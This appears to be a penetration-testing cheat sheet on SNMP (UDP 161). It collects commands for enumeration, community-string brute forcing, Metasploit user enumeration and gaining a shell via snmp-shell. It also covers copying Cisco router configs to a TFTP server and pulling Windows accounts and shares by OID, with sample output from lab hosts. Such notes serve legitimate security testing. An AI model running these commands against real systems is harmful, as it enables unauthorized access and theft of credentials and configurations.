 ```yaml
---
description: udp/161
---
```


# 161 - SNMP

### Tools

```
snmpget -v 1 -c public IP version
snmpbulkwalk -v 2 -c public IP
```

```
apt-get install snmp
snmpwalk -v 1 -c public IP
snmpwalk -c public -v2c -On IP
```

```
sudo apt install snmpenum
snmpenum 10.129.137.66 public linux.txt
```

### SNMP Config

Snmp configuration file is located by default in:

`/etc/snmp/snmpd.conf`

and it includes the passwords for the community and private string

### Brute force community string

#### onesixtyone

```
./onesixtyone -c /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.92 
Scanning 1 hosts, 122 communities 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 
10.10.10.92 [public] Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
```

#### NMAP

```
nmap -p 161 --script snmp-brute <target>
```

#### Metasploit

```
msfconsole -qx "use auxiliary/scanner/snmp/snmp_enum; set RHOSTS file:scope.txt; run"
```

### **Metasploit - Enumerate users**

```
msf5 auxiliary(scanner/snmp/snmp_enumusers) > show options  
Module options (auxiliary/scanner/snmp/snmp_enumusers): 
   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   COMMUNITY  public           yes       SNMP Community String 
   RETRIES    1                yes       SNMP Retries 
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax '
file:<path>
' 
   RPORT      161              yes       The target port (UDP) 
   THREADS    1                yes       The number of concurrent threads (max one per host) 
   TIMEOUT    1                yes       SNMP Timeout 
   VERSION    1                yes       SNMP Version <1/2c> 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > set rhosts 192.168.0.41 
rhosts => 192.168.0.41 
msf5 auxiliary(scanner/snmp/snmp_enumusers) > run 
[+] 192.168.0.41:161 Found 6 users: daemon, jack, noaccess, nobody, root, smmsp 
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

### SNMP Shell

Using Net-SNMP functionality we can gain shell on a SNMP server

Link: [https://github.com/mxrch/snmp-shell](https://github.com/mxrch/snmp-shell)

```
root@kali# rlwrap python3 /opt/snmp-shell/shell.py 10.10.10.195 -c SuP3RPrivCom90

Debian-snmp@intense:/$ id
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
```

### SNMP IPv6 Enumeration

[Enyx](broken-reference/) is an enumerator tool about grabbing the possible IPV6 of a machine through the snmp protocol.

### SNMPv3

Identify SNMPv3 servers with nmap:

`nmap -sV -p 161 --script=snmp-info TARGET-SUBNET`

Rory McCune’s snmpwalk wrapper script helps automate the username enumeration process for SNMPv3:

```
apt-get install snmp snmp-mibs-downloader 
wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb
```

### SNMP Enumeration - Windows tool

Getif is a free multi-functional Windows GUI based Network Tool written by Philippe Simonet. It is amongst other things, an excellent SNMP tool that allows you to collect and graph information from SNMP devices.

Download:

[http://www.wtcs.org/snmp4tpc/getif.htm](http://www.wtcs.org/snmp4tpc/getif.htm)

Install and set compatability as Windows XP SP2

Press STRAT once you put the IP and public commuinty

Download the SNMP4tPC Getif MIB collection as well.

![](../.gitbook/assets/GetImage.gif)

For each tab press 'start' to get the information

`Error: If you getting 'DllRegisterServer (msflxgrd) failed' error` – run the software as administrator

### **Common Mibs**

**interfaces**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.2.2`

**Windows User Accounts**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25`

**Windows Running Programs**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2`

**Windows Hostname**\
`snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5`

**Windows Share Information**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1`

**Windows Share Information**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27`

**Windows TCP Ports**\
`snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3`

**Software Name**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2`

**SysLocation**\
`snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.1.6`

### Solaris MIBS

Enumerate users on solaris:

`use auxiliary/scanner/snmp/snmp_enumusers`

### Download Cisco Conf

Copies configuration files from Cisco devices running SNMP.

**Usage**:

```
root@kali:~# copy-router-config.pl 
###################################################### 
# Copy Cisco Router config  - Using SNMP 
# Hacked up by muts - muts@offensive-security.com 
####################################################### 
Usage : ./copy-copy-config.pl <router-ip> <tftp-serverip> <community> 
Make sure a TFTP server is set up, preferably running from /tmp ! 
```

**Example:**

`root@kali:~# copy-router-config.pl 192.168.1.1 192.168.1.15 private`
